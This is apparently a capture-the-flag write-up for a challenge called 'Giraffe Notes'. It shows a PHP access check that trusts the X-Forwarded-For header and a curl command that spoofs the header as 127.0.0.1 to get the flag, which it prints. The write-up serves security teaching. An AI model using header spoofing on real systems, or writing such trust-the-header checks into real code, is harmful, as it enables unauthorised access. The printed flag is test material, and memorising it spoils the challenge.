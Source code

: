 # Giraffe Notes

I bet you can't access my notes on giraffes!

http://chal.competitivecyber.club:8081

Flag format: CACI{.*}

## Solution

```php
// index.php

$allowed_ip = ['localhost', '127.0.0.1'];
if (isset($_SERVER['HTTP_X_FORWARDED_FOR']) && in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $allowed_ip)) {
    $allowed = true;
} else {
    $allowed = false;
}
```

```sh
curl --header "X-Forwarded-For: 127.0.0.1" http://chal.competitivecyber.club:8081

# CACI{1_lik3_g1raff3s_4_l0t}
```
